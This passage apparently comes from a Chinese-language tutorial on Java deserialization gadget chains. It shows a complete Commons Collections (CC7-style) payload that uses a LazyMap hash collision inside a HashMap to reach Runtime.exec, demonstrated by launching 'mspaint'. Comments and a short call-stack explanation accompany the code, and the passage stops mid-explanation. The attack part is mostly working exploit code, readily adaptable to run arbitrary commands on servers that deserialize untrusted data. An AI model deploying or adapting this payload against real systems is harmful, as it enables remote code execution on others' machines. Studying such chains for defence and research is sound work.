 	    public static Object getPayload() throws Exception{
	        ChainedTransformer chainedTransformer = new ChainedTransformer(new Transformer[]{
	                new ConstantTransformer(1)
	        });
	
	        Transformer[] trueTransformer = {
	                new ConstantTransformer(Runtime.class),
	                new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",new Class[0]}),
	                new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{Runtime.class,new Object[0]}),
	                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"mspaint"})
	        };
	
	        HashMap<Object, Object> hashMap1 = new HashMap<>();
	        HashMap<Object, Object> hashMap2 = new HashMap<>();
	
	        // 让两个LazyMap的hashcode相同，于是HashTable反序列化时，会出现hash碰撞
	        // 且key不能一样，否则LazyMap.get(key)中不会触发transformer
	        hashMap1.put("p1n93r",1);
	        hashMap2.put("p1n93s",6);
	
	        Map lazyMap1 = LazyMap.decorate(hashMap1, chainedTransformer);
	        Map lazyMap2 = LazyMap.decorate(hashMap2, chainedTransformer);
	
	        // 使用HashTable和HashMap都一样，只要产生hash碰撞即可
	        HashMap<Object, Object> res = new HashMap<>();
	        res.put(lazyMap1,1);
	        res.put(lazyMap2,2);
	
	        // 最后记得把真正的执行链放入chainedTransformer
	        Class<? extends ChainedTransformer> chainedTransformerClass = chainedTransformer.getClass();
	        Field iTransformers = chainedTransformerClass.getDeclaredField("iTransformers");
	        iTransformers.setAccessible(true);
	        iTransformers.set(chainedTransformer,trueTransformer);
	
	        // 因为HashMap#put时就发生了hash碰撞，所以导致LazyMap1内部新增了一个键值对：{"p1n93s",1}
	        // 需要删除，防止反序列化时LazyMap1#get("p1n93s")中不会进入transformer
	        lazyMap1.remove("p1n93s");
	
	        return res;
	    }
	
	
	    public static void main(String[] args) throws Exception{
	        Object payload = getPayload();
	        SerialUtil.runPayload(payload);
	    }
	}




调用栈如下所示：

![CC7调用栈][p15]

核心思想其实就是，HashMap#readObject()中元素的key发生Hash碰撞时，会进行元素值比较，需要获取元素值嘛，肯定是通过get()获取嘛，这不就触发了LazyMap#get()了~最终触发LazyMap#get()，是在AbstractMap#equals()中，如下所示：
